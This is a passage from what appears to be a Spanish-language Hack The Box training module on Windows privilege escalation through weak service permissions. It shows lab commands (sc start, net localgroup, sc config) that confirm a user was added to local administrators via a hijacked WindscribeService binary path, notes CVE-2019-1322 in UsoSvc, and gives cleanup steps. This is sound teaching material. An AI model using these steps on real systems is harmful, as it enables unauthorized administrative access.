 ```r
C:\htb> sc start WindscribeService

[SC] StartService FAILED 1053:
 
The service did not respond to the start or control request in a timely fashion.
```

### Confirming Local Admin Group Addition

Finalmente, verificamos que nuestro usuario fue agregado al grupo de administradores locales.

```r
C:\htb> net localgroup administrators

Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain
 
Members
 
-------------------------------------------------------------------------------
Administrator
htb-student
mrb3n
The command completed successfully.
```

Otro ejemplo notable es el Windows [Update Orchestrator Service (UsoSvc)](https://docs.microsoft.com/en-us/windows/deployment/update/how-windows-update-works), que es responsable de descargar e instalar actualizaciones del sistema operativo. Se considera un servicio esencial de Windows y no puede ser eliminado. Como es responsable de realizar cambios en el sistema operativo a través de la instalación de actualizaciones de seguridad y características, se ejecuta como la cuenta todopoderosa `NT AUTHORITY\SYSTEM`. Antes de instalar el parche de seguridad relacionado con [CVE-2019-1322](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-1322), era posible elevar privilegios desde una cuenta de servicio a `SYSTEM`. Esto se debía a permisos débiles, que permitían a las cuentas de servicio modificar la ruta del binario del servicio y arrancar/detener el servicio.

---

## Weak Service Permissions - Cleanup

Podemos limpiar después de nosotros y asegurarnos de que el servicio esté funcionando correctamente deteniéndolo y restableciendo la ruta del binario al ejecutable original del servicio.

### Reverting the Binary Path

```r
C:\htb> sc config WindScribeService binpath="c:\Program Files (x86)\Windscribe\WindscribeService.exe"

[SC] ChangeServiceConfig SUCCESS
```

### Starting the Service Again
